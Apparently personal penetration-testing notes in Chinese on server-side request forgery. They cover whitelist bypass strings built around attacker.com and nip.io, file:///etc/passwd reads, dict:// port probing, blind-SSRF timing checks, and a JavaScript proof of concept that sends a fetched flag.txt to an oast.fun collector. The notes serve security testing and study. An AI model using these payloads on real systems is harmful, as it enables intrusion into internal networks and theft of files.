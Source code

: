### Localhost Whitelist

```bash
只允许hiroki.com

有可能匹配 
	1. 是否存在 hiroki.com --> 
		   hiroki.com.hiroki.com   cname 127.0.0.1
		   hiroki.com.127.0.0.1.nip.io
		   hiroki.com@attacker.com  cname 127.0.0.1 (有时候会限制为https://www.hiroki.com 开头)
		   
	2. 是否以 hiroki.com结尾 -->
		   127.0.0.1/hiroki.com
		   127.0.0.1/https://www.hiroki.com
	3. 强制限制https://www.hiroki.com 而且匹配很严谨
		   - 找url跳转：https://www.hiroki.com/?redirect_url=https://www.attacker.com
		   - 文件上传: https://www.hiroki.com/?file=file:///etc/passwd
					https://www.hiroki.com/?file=http://127.0.0.1:8080
```



## 总结
1. 测试**对外请求**，要看 请求完整信息,原因如下 : 
	1. https://oast.fun ⭐多用 ![](media/Pasted%20image%2020251029191744.png)
	2. [Java/Kotlin使用chrome无头浏览器](https://blog.csdn.net/qq_44684238/article/details/145533518)   开发者角度 
```bash
Header ： 组件CVE --- Chrome Rce 
	https://mp.weixin.qq.com/s/hj8mv_GHr2o7ysQvFDs8UA -- chrome rce
	https://corben.io/blog/18-12-5-XSS-to-XXE-in-Prince -- Prince XXE
	
其他请求头：可能泄露API KEY
```
2. **常用协议**
```bash
http://

file:///etc/passwd #读取文件

dict://127.0.0.1:8080 #探测端口
```
3. **盲SSRF**
	1. `时间` 来验证 存在盲ssrf
		1. https://www.baidu.com time 0.1s
		2. https://10.0.0.1 time 5s or more 可能这里没服务，但是验证我们可以访问内网
		3. https://10.0.0.1:8080 time 0.1s 内网这里有服务
	2. 我们自己服务器 `bind-ssrf.html` 
		1. 先测试 能不能执行 js ：`<script>window.location="https://xxxx.oast.fun"<script>` 
		2. POC : `exfil = new XMLHttpRequest(); exfil.open("GET",https://受害者.com/flag.txt); exfil.send(); exfil.onload = function() {document.write(<img src="https://xxxx.oast.fun/x?x=" + btoa(this.responseText)+ '">'); }`     